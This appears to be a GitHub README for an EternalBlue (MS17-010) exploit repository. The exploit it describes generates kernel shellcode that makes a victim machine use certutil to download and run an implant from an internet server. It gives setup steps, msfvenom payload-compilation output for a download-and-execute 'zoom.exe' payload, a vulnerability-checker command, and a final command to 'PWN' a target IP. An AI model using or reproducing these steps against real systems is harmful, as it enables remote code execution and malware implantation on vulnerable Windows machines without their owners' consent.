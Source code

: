 # MS17-010 Exploit Code

This is some  public exploit code that generates valid shellcode for the eternal blue exploit that instructs the victim using Certutil tool to download an implant from an internet AWS server and execute it.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit, or reverse shells (no need to use ncat listenning)

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternal_checker.py <TARGET-IP>`


# Requirements
Core exploit code requires impacket and the `mysmb.py` library (included with the repo). To install any requirements simply use pip on the `requirements.txt` file. It's always recommended you use a virtual environment like `venv` when installing python dependencies, but use whatever you like.

Additionally, the helper scripts below require the Metasploit Framework to be installed. At minimum you will need `msfvenom` for the `shell_prep.sh` but stageless command shells can be caught like any normal command shell without the use of Metasploit's multi/handler. Otherwise, simply install the metasploit framework and insure it is in your path.

#### IMPORTANT SUPPORT INFO:
Keep in mind `python2` is *not* officially supported anymore. The original exploit code that is provided was initially built for python2, going forward any errors discovered will be adjusted for insuring the code works with python3 instead of python2. Instructions below assume python/pip are `python3` by default, so if you are using `python2` update based on your own paths when necessary and remember, it is *NOT* officially supported by this repo.
## Python2
`pip2.7 install -r requirements.txt`

## Python3
`pip install -r requirements.txt`

## TODO:
- [x] Validate python3 compatibility
- [ ] Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run ./shell_prep.sh

OUTPUT:
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
'Compiling x86 kernel shellcode'
kernel shellcode compiled
Generating payload to download and execute zoom.exe using certutil...
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/nicolas/.msf4/db...pg_ctl: another server might be running; trying to start server anyway
server starting
success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 364 bytes
Saved as: sc_x64_msf.bin
Payload for x64 generated.
MERGING KERNEL SHELLCODE WITH MSFVENOM-GENERATED PAYLOAD!
Shellcode merged successfully.
DONE

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

navigate back to Eternal-Blue-with-RCE directory

run: python3 eternalblue_exploit10.py <TARGET-IP> shellcode/sc_x64.bin <Number of Groom Connections (optional)>



